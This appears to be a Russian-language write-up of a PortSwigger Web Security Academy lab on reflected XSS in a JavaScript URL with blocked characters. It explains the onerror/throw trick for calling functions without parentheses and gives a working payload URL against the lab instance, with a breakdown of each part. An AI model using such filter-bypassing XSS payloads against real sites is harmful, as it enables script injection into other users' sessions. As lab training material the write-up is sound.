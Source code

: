 # Reflected XSS in a JavaScript URL with some characters blocked

## Theory

<h3>Выход из строки JavaScript</h3>

Некоторые веб-сайты усложняют XSS, ограничивая символы, которые вам разрешено использовать. Это может быть на уровне веб-сайта или путем развертывания WAF, который предотвращает попадание ваших запросов на веб-сайт. В этих ситуациях вам нужно поэкспериментировать с другими способами вызова функций, которые обходят эти меры безопасности. Один из способов сделать это — использовать оператор throw с обработчиком исключений. Это позволяет передавать аргументы функции без использования круглых скобок. Следующий код назначает функцию alert() глобальному обработчику исключений, а инструкция throw передает 1 обработчику исключений (в данном случае alert). Конечным результатом является то, что функция alert() вызывается с 1 в качестве аргумента.
```
onerror=alert;throw 1
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(XSS)_Cross-site_scripting/Reflected_XSS_in_a_JavaScript_URL_with_some_characters_blocked/assets/1.png)

Мы будем использовать следующий экплоит для решения задания:
```
https://0a8f0052048cd6c1c072161f00e2000b.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

Код экплоита без URL кодировки:
```
https://0a8f0052048cd6c1c072161f00e2000b.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

**&** - добавляет новый параметр, чтобы оставить параметр postId нетронутым

**'}** - используется для того, чтобы выйти из body:'/post?postId=1'}

**\,x=x=>{throw\/\**/onerror=alert,1337},toString=x,window+'',** - перезаписывает метод toString и запускает его.

**{x:'** - используется, чтобы не нарушать JavaScript.

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(XSS)_Cross-site_scripting/Reflected_XSS_in_a_JavaScript_URL_with_some_characters_blocked/assets/2.png)
